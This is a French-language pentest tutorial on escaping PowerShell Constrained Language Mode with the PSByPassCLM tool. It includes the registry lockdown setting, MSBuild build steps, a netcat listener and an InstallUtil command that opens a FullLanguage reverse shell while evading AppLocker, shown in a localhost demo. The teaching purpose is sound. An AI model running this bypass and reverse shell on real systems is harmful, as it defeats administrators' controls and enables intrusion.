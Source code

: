 ```yaml
---
title: "[CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y'a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) ou en français (Stratégies de groupe) dans un environnement `Active Directory`.

![Flower](https://image.noelshack.com/fichiers/2019/23/2/1559643342-screenshot-1.png)

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée ( 1 ) : Pour le `FullLanguage`. <br />
Donnée ( 2 ) : Pour le `RestrictedLanguage`. <br />
Donnée ( 3 ) : Pour le `NoLanguage`. <br />
Donnée ( 4 ) : Pour le `ConstrainedLanguage` <br />

DEMONSTRATION
----

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement d'après l'information je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc.. Notre but maintenant c'est de changer de mode de `LANGAGE` passer de `ConstrainedLanguage` à `FullLanguage` pour effectuer des actions sur le système avec la session PowerShell. 

## .NET

Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Executer` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Enable or disable Windows features`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

## Build

Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

## Reverse Shell

Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.
